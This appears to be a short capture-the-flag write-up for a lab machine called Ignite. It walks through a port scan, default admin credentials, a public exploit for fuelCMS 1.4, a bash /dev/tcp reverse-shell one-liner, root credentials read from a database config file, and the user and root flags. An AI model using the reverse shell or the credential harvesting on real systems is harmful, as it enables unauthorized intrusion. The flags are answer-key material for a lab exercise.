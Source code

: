 # Ignite

### IP Address
```
10.10.235.13
```

### Scan

port | type | state | service | version
-----|------|-------|---------|--------
80 | open | tcp | http | Apache httpd 2.4.18 ((Ubuntu))
 

website running robots.txt file found with disallowed entry **/fuel/**

### Credentials found

>admin:admin

Website running on **fuelCMS v1.4**
Exploited **fuelCMS v1.4** using [exploit](https://www.exploit-db.com/exploits/47138)

created reverse shell connection using nc command

> bash -i >& /dev/tcp/10.10.235.13/4444 0>&1

### Task
user.txt

flag found in **/home** directory

>6470e394cbf6dab6a91682cc8585059b

root.txt
credential for root user found in ```fuel/application/config/database.php```
>root:mememe

root flag found in **/root/root.txt**
>b9bbcb33e11b80be759c4e844862482d
